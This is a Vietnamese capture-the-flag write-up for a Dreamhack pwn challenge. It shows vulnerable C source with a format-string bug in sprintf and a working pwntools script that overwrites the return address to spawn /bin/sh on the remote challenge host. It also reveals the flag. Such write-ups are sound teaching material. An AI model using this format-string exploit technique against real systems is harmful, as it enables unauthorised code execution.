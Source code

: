 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```

Chương trình cho phép nhập vào biến `heap_buf` rồi sau đó dùng hàm `sprintf` chuyển dữ liệu qua biến `stack_buf`. Nhưng ở đây không có `%s` nên có lỗi `format string`. Sau đó in giá trị ở biến `stack_buf` ra màn hình.

**2. Ý tưởng**

Chèn địa chỉ hàm `get_shell` vào sau lệnh `ret`.

**3. Khai thác**

Đặt breakpoint ở lệnh `read` để kiểm tra xem biến `heap_buf` xem cách ebp bao nhiêu.

![buf.png](photo/buf.png)

![ebp.png](photo/ebp.png)

2 biến trên cách nhau 40. Nên nhập `%38$p` nhân với 0x80/8 = 16 lần rồi chèn địa chỉ hàm `get_shell` vào.

```
payload = b'%38$p'*16
payload += p32(exe.sym['get_shell'])
r.sendline(payload)
```

Nhưng ko được nên lùi về 15 và thêm 6 byte rác nữa. Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_003', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 12587)

input()
payload = b'%38$p'*15
payload += b'a'*6
payload += p32(exe.sym['get_shell'])
r.sendline(payload)

r.interactive()
```

**4. Lấy flag**

![fag.png](photo/fag.png)

`Flag: DH{4e6e355c62249b2da3b566f0d575007e}`